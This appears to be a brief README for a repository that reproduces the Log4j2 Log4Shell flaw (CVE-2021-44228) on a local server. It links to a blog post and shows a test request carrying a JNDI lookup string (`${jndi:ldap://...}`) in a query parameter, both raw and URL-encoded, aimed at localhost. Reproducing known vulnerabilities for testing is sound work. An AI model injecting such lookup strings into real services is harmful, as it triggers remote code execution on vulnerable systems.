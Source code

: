 # Evaluate the Log4Shell: RCE 0-day  Issue

This repo contains the code to evaluate Log4j2 issue CVE-2021-44228 

## More details

* https://www.lunasec.io/docs/blog/log4j-zero-day/

## How to Test

Send GET request with query parameter as `${jndi:ldap://127.0.0.1:3089/}`. 

```
http://localhost:10000/test?userParam=%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%3A3089%2F%7D
```